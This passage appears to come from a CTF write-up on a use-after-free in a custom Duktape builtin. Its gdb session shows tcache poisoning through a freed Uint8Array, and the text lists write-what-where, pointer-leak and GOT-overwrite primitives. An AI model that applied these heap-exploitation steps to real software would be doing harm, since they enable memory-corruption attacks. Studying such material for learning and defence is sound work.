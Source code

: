 And running `duk` in `gdb`:

```bash
gef➤ b  duk_bi_typedarray_midnight      # before the free
gef➤ b *duk_bi_typedarray_midnight+46   # after the free
Breakpoint 1 at 0x555555574f17: file duk_bi_buffer.c, line 2818.
duk> var a = new Uint8Array(0x1e0);        
= undefined
duk> a;
= [object Uint8Array]
duk> a.midnight();
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1  ←  Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE) 
Tcachebins[idx=42, size=0x2c0] count=1  ←  Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1  ←  Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE) 
Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE) 
Tcachebins[idx=42, size=0x2c0] count=1  ←  Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
duk> a[0] = 0x41;
duk> a[1] = 0x41;
duk> a[2] = 0x41;
duk> a[3] = 0x41;
duk> a.midnight();
gef➤ heap bins
...
Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE)  ←  [Corrupted chunk at 0x41414141]
...
# WE CONTROL TCACHE->FD pointer :D
```

We can also access the `fd` and `bk` pointers of freed chunks via indexing the freed array.

# Exploitation
### What we have:
- UAF to modify `tcache_entry->fd` pointer (tcache poison)
    - Enables a write-what-where primitive
- UAF to leak freed chunk pointers
- Binary has no `PIE` and `Partial RELRO`, so GOT overwrite is possible.
